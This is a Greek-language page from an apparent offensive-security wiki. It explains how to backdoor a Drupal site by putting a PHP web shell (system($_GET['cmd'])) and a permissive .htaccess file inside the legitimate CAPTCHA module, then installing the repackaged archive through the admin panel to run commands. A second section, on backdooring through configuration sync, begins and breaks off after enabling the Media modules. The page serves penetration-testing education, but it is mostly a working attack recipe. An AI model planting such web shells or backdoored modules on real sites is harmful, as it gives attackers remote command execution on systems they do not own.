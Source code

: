 ## Backdoored Module

{% hint style="warning" %}
Στις τρέχουσες εκδόσεις, δεν είναι πλέον δυνατό να εγκαταστήσετε πρόσθετα μόνο με πρόσβαση στο διαδίκτυο μετά την προεπιλεγμένη εγκατάσταση.
{% endhint %}

Ένα backdoored module μπορεί να δημιουργηθεί προσθέτοντας **ένα shell σε ένα υπάρχον module**. Τα modules μπορούν να βρεθούν στην ιστοσελίδα drupal.org. Ας επιλέξουμε ένα module όπως το [CAPTCHA](https://www.drupal.org/project/captcha). Κάντε κύλιση προς τα κάτω και αντιγράψτε τον σύνδεσμο για το tar.gz [αρχείο](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Κατεβάστε το αρχείο και εξαγάγετε το περιεχόμενό του.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Δημιουργήστε ένα **PHP web shell** με τα περιεχόμενα:
```php
<?php
system($_GET["cmd"]);
?>
```
* Στη συνέχεια, πρέπει να δημιουργήσουμε ένα **`.htaccess`** αρχείο για να αποκτήσουμε πρόσβαση στον φάκελο. Αυτό είναι απαραίτητο καθώς το Drupal αρνείται την άμεση πρόσβαση στον φάκελο **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Η παραπάνω ρύθμιση θα εφαρμόσει κανόνες για τον φάκελο / όταν ζητάμε ένα αρχείο στον φάκελο /modules. Αντιγράψτε και τα δύο αυτά αρχεία στον φάκελο captcha και δημιουργήστε ένα αρχείο.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Υποθέτοντας ότι έχουμε **διοικητική πρόσβαση** στον ιστότοπο, κάντε κλικ στο **`Manage`** και στη συνέχεια στο **`Extend`** στη γραμμή πλοήγησης. Στη συνέχεια, κάντε κλικ στο κουμπί **`+ Install new module`** και θα μεταφερθούμε στη σελίδα εγκατάστασης, όπως `http://drupal-site.local/admin/modules/install`. Περιηγηθείτε στο αρχείο Captcha με backdoor και κάντε κλικ στο **`Install`**.
* Μόλις ολοκληρωθεί η εγκατάσταση, περιηγηθείτε στο **`/modules/captcha/shell.php`** για να εκτελέσετε εντολές.

## Backdooring Drupal με συγχρονισμό ρυθμίσεων <a href="#backdooring-drupal" id="backdooring-drupal"></a>

**Ανάρτηση που μοιράστηκε από** [**Coiffeur0x90**](https://twitter.com/Coiffeur0x90)

### Μέρος 1 (ενεργοποίηση του _Media_ και _Media Library_)

Στο μενού _Extend_ (/admin/modules), μπορείτε να ενεργοποιήσετε αυτά που φαίνονται ως πρόσθετα που είναι ήδη εγκατεστημένα. Από προεπιλογή, τα πρόσθετα _Media_ και _Media Library_ δεν φαίνεται να είναι ενεργοποιημένα, οπότε ας τα ενεργοποιήσουμε.
